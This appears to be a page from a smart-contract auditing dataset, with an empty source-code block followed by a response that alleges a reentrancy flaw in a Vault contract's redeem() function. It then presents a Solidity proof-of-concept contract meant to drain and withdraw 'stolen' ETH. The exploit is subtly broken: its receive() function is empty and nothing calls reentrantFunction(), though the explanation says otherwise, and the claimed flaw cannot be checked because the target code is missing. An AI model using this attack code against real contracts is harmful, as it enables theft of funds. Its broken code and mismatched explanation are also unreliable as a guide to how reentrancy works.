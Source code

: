 ```solidity
}

```



#### Response：

In the provided smart contract, there's a potential vulnerability present in the redeem() function, which could be susceptible to a reentrancy attack. A reentrancy attack is a type of exploit where an attacker re-enters the contract by nesting calls to other contracts within a contract call, executing the code within the contract multiple times.

Below is an attack example (Proof of Concept) on this contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
 
contract Attack {
    Vault public vault;

    constructor(address _vaultAddress) {
        vault = Vault(_vaultAddress);
    }
     // Fallback function to receive ETH
     receive() external payable {}
 
    // Perform the attack
    function performAttack() external {
        // Deposit some ETH to trigger the vulnerable function
        vault.store{value: 1 ether}();
 
        // Call the vulnerable function to initiate the reentrancy attack
        vault.redeem();
    }
 
    // Function to be called by the vulnerable contract (Vault)
    function reentrantFunction() external {
        // Reenter the vulnerable function before the previous call is completed
        vault.redeem();
    }
 
    // Function to withdraw the stolen ETH
    function withdrawStolenETH() external {
        // Transfer the stolen ETH to the attacker's address
        payable(msg.sender).transfer(address(this).balance);
    }
}

```

The attack contract (Attack) first deposits 1 Ether into the target contract (Vault), then calls the target contract's redeem() function. Before the target contract completes the transfer operation, the attack contract calls the redeem() function of the target contract again, initiating a reentrancy attack. The reentrantFunction() function within the attack contract facilitates reentry, calling the target contract's redeem() function again with each entry.
